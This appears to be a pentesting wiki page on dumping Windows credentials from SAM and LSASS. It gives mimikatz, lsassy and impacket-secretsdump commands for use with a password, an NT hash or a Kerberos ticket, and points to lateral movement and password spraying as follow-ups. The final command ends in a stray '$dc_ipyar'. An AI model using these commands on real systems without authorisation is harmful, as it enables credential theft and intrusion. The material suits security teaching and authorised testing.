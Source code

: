 ```yaml
---
label: From Machine
subLabel: (SAM & LSASS dump)
---
```


# Credentials dump from SAM and LSASS

> **Requirements:**
>
> - You have to be a local administrator on the machine (or SYSTEM).

By dumping the LSASS memory or SAM database, we can get credentials of other local and domain users. The obtained credentials can be used for [lateral movement](/windows-lateral-movement) or [password spraying](password-spraying) attack.

> **WARNING**: Mimikatz is currently very well detected by antiviruses. You can see other options below in the **Mimikatz alternatives** section.

## LSASS dump

LSASS dump can reveal credentials of users currently or recently logged into the system. The most common cached credentials will be NT hashes and Kerberos TGTs.

Windows:

```powershell
.\mimikatz.exe
> privilege::debug
> sekurlsa::logonpasswords
```

Linux:

```bash
# Using password
lsassy -u $user -p $password -d $domain $host

# Using NT hash
lsassy -u $user -H $nt_hash -d $domain $host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
lsassy -k $host
```

## SAM dump

SAM dump will return all local users on the system along with their hashed passwords in NT hash form.

Windows:

```powershell
.\mimikatz.exe
> privilege::debug
> token::elevate
> lsadump::sam
```

Linux:

```bash
# Using password
impacket-secretsdump $domain/$user:$password@$host

# Using NT hash
impacket-secretsdump -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-secretsdump $hostname -k -no-pass -dc-ip $dc_ipyar
```
